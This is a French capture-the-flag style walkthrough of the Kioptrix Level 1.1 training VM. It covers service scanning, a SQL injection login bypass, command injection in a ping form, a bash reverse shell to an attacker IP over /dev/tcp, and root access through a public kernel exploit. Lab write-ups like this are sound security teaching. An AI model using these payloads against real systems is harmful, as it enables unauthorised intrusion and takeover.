 ```yaml
---
description: 'Walkthrough de la machine Kioptrix: Level 2'
---
```


# Kioptrix: Level 1.1 \(\#2\)

## Détails de la machine

**Nom :** Kioptrix: Level 1.1 \(\#2\)  
**Date de sortie :** 11 Février 2011  
**Lien de téléchargement :** [http://www.kioptrix.com/dlvm/Kioptrix\_Level\_2.rar](http://www.kioptrix.com/dlvm/Kioptrix_Level_2.rar)  
**Niveau :** Facile  
**Objectif\(s\) :** obtenir un accès "root"  
**Description :**  
`This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.   
  
This is the second release of #2. First release had a bug in it with the web application  
2012/Feb/09: Re-releases  
2011/Feb/11: Original Release`

## Reconnaissance

`netdicover` permet d'identifier l'adresse IP 192.168.1.15 comme étant notre victime :

![](../../../.gitbook/assets/b236a71d370dbb557718fdf87b3310de.png)

Suivi de `nmap` afin de scanner les services s'exécutant sur la machine :

![](../../../.gitbook/assets/3c98b193738de5640529c7488d16abb0.png)

Résultat : un service SSH, un serveur web \(en version HTTP et HTTPS\), un serveur d'impression CUPS ainsi qu'une base de données MySQL.

### Serveur HTTP

On commence directement par l'analyse du serveur web car je n'ai rien identifié de pertinent concernant la version 3.9 d'OpenSSH. Les résultats du `dirb` ainsi que du `nikto` ne donne rien de particulièrement intéressant non plus :

![](../../../.gitbook/assets/632f2601b754f23875ba841fe066b162.png)

La sortie est tronquée avec un -r mais rien d'intéressant même dans les sous-dossiers. Voici la sortie du `nikto` :

![](../../../.gitbook/assets/25d8f8c69663c0bd739f30efba3f3a0c.png)

On passe donc à l'analyse manuelle du site web. La page d'accueil est une mire d'authentification. Après quelques weaks credentials on tente de détecter une injection SQL avec un simple `' OR 1=1 --` :

![](../../../.gitbook/assets/138b88530829224c303ba8a6da81f596.png)

Cela fonctionne et nous permet de récupérer la prochaine page qui est une fonction permettant de pinger une machine du réseau \(ça sent l'injection de commande\) :

![](../../../.gitbook/assets/387198eb410ca24f85d8650701874168.png)

On tente la plus simple des injections avec le caractère `;` permettant de séparer des commandes :

![](../../../.gitbook/assets/c740bfb3515f48418d595e5af47b73cd.png)

On récupère l'id du compte apache qui exécute le serveur web. L'injection de commande est confirmée.

### Serveur d'impression

Cups est un serveur d'impression permettant aux utilisateurs de configurer les différents imprimantes. Pour cela il est également possible d'accéder au service par son interface web, dans notre cas un "403 - Forbidden" nous l'interdit :

![](../../../.gitbook/assets/88a52f4707669bd539b88b458ac4fc88.png)

La version utilisée de CUPS est la version 1.1, elle est vulnérable au moins à la CVE suivante \(car je n'ai pas beaucoup cherché mais il semble que d'autres CVE sont disponibles pour cette version\) :

![](../../../.gitbook/assets/d703a626c7f475515f7a4673dc41a387.png)

### MySQL

Nous ne connaissons pas la version du système de base de données afin de déterminer si le service est vulnérable à certaines CVE.

## Exploitation

### Injection de commande

Il est facile de récupérer un shell grâce à l'injection de commande. `netcat` ne semble pas disponible sur la machine cible, je suis donc passé par un `bash` grâce à la commande `;bash -i >& /dev/tcp/192.168.1.89/5555 0<&1`. Afin de l'utiliser dans la requête POST je l'ai préalablement encodée avec un encodage URL : 

![](../../../.gitbook/assets/6fe012f0214d723cfac732eb5a647144.png)

Côté machine d'attaque, un `netcat` en écoute sur le port 5555 :

![](../../../.gitbook/assets/4ba3d8e2bcdca66ab9ba25049194b65d.png)

## Élévation de privilèges

Un `uname -a` nous indique une version de kernel 2.6.9 sur une Fedora 4.5 qui est vulnérable à la CVE-2009-2698 :

![](../../../.gitbook/assets/b7815d98dd05fd179ce4526541faac60.png)

Voici la CVE :

![](../../../.gitbook/assets/af4235a012598d0cfece5e368071a386.png)

Une fois l'exploit \([https://www.exploit-db.com/exploits/9542](https://www.exploit-db.com/exploits/9542)\) compilé et exécuté, nous sommes "root" :

![](../../../.gitbook/assets/b0bc23db78339563d8cf5087c24d1552.png)

## Conclusion

Il est également possible de récupérer les credentials de MySQL en affichant le fichier "index.php" du site web \(soit une fois le shell récupéré ou alors via l'injection de commande\) :

![](../../../.gitbook/assets/1dcd2f0b309cefd3548130d52d19cec1.png)

L'accès est refusé à partir d'une autre machine, mais une fois le shell récupéré grâce à l'injection de commande le contenu de la base est accessible :

![](../../../.gitbook/assets/d386607ad7c9b223571ecc7e9baec8b5.png)

Mais aucun des mots de passe \("hiroshima", ou "66lajGGbla"\) ne semble être le mot de passe du compte de "john" pour un accès en SSH. Pour information voici le contenu du fichier "/etc/passwd" :

![](../../../.gitbook/assets/ed4a366ae26ff7fd9393cb853207f4b6.png)

Je n'ai pas était plus loin dans la compromission des comptes existants, aucun mot de passe ne semble traîner dans un fichier quelconque.

Cette machine était très facile et donc parfaite pour commencer le pentest. Rien de compliqué, des failles web et un LPE à coup d'exploit d'un kernel vulnérable.



